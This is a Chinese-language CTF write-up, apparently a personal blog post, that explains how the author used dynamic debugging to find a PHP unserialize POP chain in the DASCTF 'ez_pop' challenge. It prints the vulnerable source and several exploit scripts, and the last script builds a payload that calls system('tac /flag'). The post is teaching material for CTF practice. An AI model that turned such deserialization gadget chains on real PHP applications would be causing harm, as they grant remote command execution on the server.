









+++
title = "动调挖掘pop"
slug = "dynamic-debugging-pop-discovery"
description = "PX的时候发现还能这么整"
date = "2025-05-08T09:42:06"
lastmod = "2025-05-08T09:42:06"
image = ""
license = ""
categories = ["talk"]
tags = ["姿势", "php"]
+++

## 前言

今年NCTF的时候有一位师傅来问过我一个很好的问题，当时我自己也不是很会，也不知道该如何去回答这个问题

> 你们这些大佬都是怎么找到这些新特性的呀，比如这次的原型链污染，我怎么知道要污染这个属性呢

看过我CTFshow之thinkphp专题的文章的师傅应该看的出来，那里面的分析其实我都是静态分析，并没有通过动态调试慢慢的补全，而是借着前人的exp进行攻击，即使是SU_pop那道题也是，不过Cakephp其实比较简单，链子并不复杂，也不是很需要动调，今天做了一道比较有意思的题目，恍惚间顿悟了动调的真正含义，于是写下这篇文章记录学习过程，同时也会用一个很简单的例子来讲讲如何动调挖掘污染链

## ez_pop

这是一道DASCTF的原题，在当时这种绕过方法(fast-destruct)应该相当时髦，不过我在打入链子时发现一个小小的问题，让我们一起来看看

```php
<?php
highlight_file(__FILE__);
error_reporting(0);

class fine
{
    private $cmd;
    private $content;

    public function __construct($cmd, $content)
    {
        $this->cmd = $cmd;
        $this->content = $content;
    }

    public function __invoke()
    {
        call_user_func($this->cmd, $this->content);
    }

    public function __wakeup()
    {
        $this->cmd = "";
        die("Go listen to Jay Chou's secret-code! Really nice");
    }
}

class show
{
    public $ctf;
    public $time = "Two and a half years";

    public function __construct($ctf)
    {
        $this->ctf = $ctf;
    }


    public function __toString()
    {
        return $this->ctf->show();
    }

    public function show(): string
    {
        return $this->ctf . ": Duration of practice: " . $this->time;
    }


}

class sorry
{
    private $name;
    private $password;
    public $hint = "hint is depend on you";
    public $key;

    public function __construct($name, $password)
    {
        $this->name = $name;
        $this->password = $password;
    }

    public function __sleep()
    {
        $this->hint = new secret_code();
    }

    public function __get($name)
    {
        $name = $this->key;
        $name();
    }


    public function __destruct()
    {
        if ($this->password == $this->name) {

            echo $this->hint;
        } else if ($this->name = "jay") {
            secret_code::secret();
        } else {
            echo "This is our code";
        }
    }


    public function getPassword()
    {
        return $this->password;
    }

    public function setPassword($password): void
    {
        $this->password = $password;
    }


}

class secret_code
{
    protected $code;

    public static function secret()
    {
        include_once "hint.php";
        hint();
    }

    public function __call($name, $arguments)
    {
        $num = $name;
        $this->$num();
    }

    private function show()
    {
        return $this->code->secret;
    }
}


if (isset($_GET['pop'])) {
    $a = unserialize($_GET['pop']);
    $a->setPassword(md5(mt_rand()));
} else {
    $a = new show("Ctfer");
    echo $a->show();
}
```

我们看到最开始，首先想到触发`secret()`，获得其中`hint.php`，但是并没什么作用。

```php
<?php
class sorry
{
    private $name="jay";
    private $password;

}
$a=new sorry();
echo urlencode(serialize($a));
```



只是嵌入了一个B站进去，抓包得知其php版本，修饰符不敏感



初步分析得知pop链如下

```
XX::XXX()->show::__toString()->secret_code::show()->sorry::__get($name)->fine::__invoke()
```

但是不知道怎么触发`__toString()`，



这里进行了字符串比较，我猜可以触发，试试

```php
<?php
class sorry
{
    public $name;
    public $password;
    public $hint;
    public $key;

}
class show
{
    public $ctf;
}
class secret_code
{
    public $code;
}
class fine
{
    public $cmd;
    public $content;
}
$a=new sorry();
$a->name=new show();
echo urlencode(serialize($a));
```



但是我并不确定在那个`__destruct()`中是哪里触发的，所以我把条件语句都打了断点发现



并不是刚才所说的else if触发的，那不管接着写就好了，链子已经被补全了，正当我准备getshell的时候发现了一个奇怪的事情，因为这题需要使用fast-destruct绕过wakeup，但是我使用这样的exp的时候发现他不是像之前一样跳转的

```php
<?php
class sorry
{
    public $name;
    public $password;
    public $hint;
    public $key;

}
class show
{
    public $ctf;
}
class secret_code
{
    public $code;
}
class fine
{
    public $cmd;
    public $content;
}
$a=new sorry();
$a->name=new show();
$a->name->ctf=new secret_code();
$a->name->ctf->code=new sorry();
$a->name->ctf->code->name=new fine();
echo urlencode(serialize($a));
```



这将会给`$this->name`赋值为`"jay"`，也就是说不会再触发`__toString` 了，而会给我们看hint，那我把链尾删掉，他又是正常触发的

```php
<?php
class sorry
{
    public $name;
    public $password;
    public $hint;
    public $key;

}
class show
{
    public $ctf;
}
class secret_code
{
    public $code;
}
class fine
{
    public $cmd;
    public $content;
}
$a=new sorry();
$a->name=new show();
$a->name->ctf=new secret_code();
$a->name->ctf->code=new sorry();
echo urlencode(serialize($a));
```



能触发`__toString`的肯定就在这里面，那唯一一个还没用到的是`echo $this->hint;`，那我们重新构造exp

```php
<?php
class sorry
{
    public $name;
    public $password;
    public $hint;
    public $key;

}
class show
{
    public $ctf;
}
class secret_code
{
    public $code;
}
class fine
{
    public $cmd;
    public $content;
}
$a=new sorry();
$a->name="c";
$a->password="c";
$a->hint=new show();
$a->hint->ctf=new secret_code();
$a->hint->ctf->code=new sorry();
$a->hint->ctf->code->key=new fine();
echo urlencode(serialize($a));
```



`$this->hint`是对象，这里肯定会触发，解决这道题

```php
<?php
class sorry
{
    public $name;
    public $password;
    public $hint;
    public $key;

}
class show
{
    public $ctf;
}
class secret_code
{
    public $code;
}
class fine
{
    public $cmd;
    public $content;
}
$a=new sorry();
$a->name="c";
$a->password="c";
$a->hint=new show();
$a->hint->ctf=new secret_code();
$a->hint->ctf->code=new sorry();
$a->hint->ctf->code->key=new fine();
$a->hint->ctf->code->key->cmd="system";
$a->hint->ctf->code->key->content="tac /flag";
echo urlencode(serialize($a));
```



thinkphp cakephp等框架去慢慢动调挖掘，也是very good，这里只介绍pop的，因为弟弟我实在是太菜😭，后面会其他了，再单独写
